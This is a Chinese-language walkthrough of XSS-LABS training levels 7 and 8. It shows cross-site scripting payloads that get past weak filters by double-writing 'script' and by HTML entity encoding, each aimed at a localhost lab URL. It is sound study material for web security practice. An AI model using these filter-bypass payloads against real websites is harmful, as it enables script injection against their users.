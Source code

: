 ## [7]

- 替换script为空，但只替换一次，所以双写绕过。

```shell
# payload
"><scrscriptipt>alert(`xss`)</scrscriptipt>

# url
http://localhost:1996/level7.php?keyword="><scrscriptipt>alert(`xss`)</scrscriptipt>&submit=搜索
```

![image-20220928171859620](XSS-LABS.assets/image-20220928171859620.png)

## [8]

- 本关检测‘javascript’字符串，将ri替换为r_i，但会将实体编码解析为字符集，所以只需保证不在payload中出现'javascript'即可。

```shell
# 实体编码在线字典
https://www.obkb.com/dcljr/charstxt.html

# 备注
&#x70;
&#112;
以上两个实体编码在html中都为p

# payload 二选一
javascri&#x70;t:alert(`xss`)
javascri&#112;t:alert(`xss`)

# url
http://localhost:1996/level8.php?keyword=javascri&#x70;t:alert(`xss`)&submit=添加友情链接
```
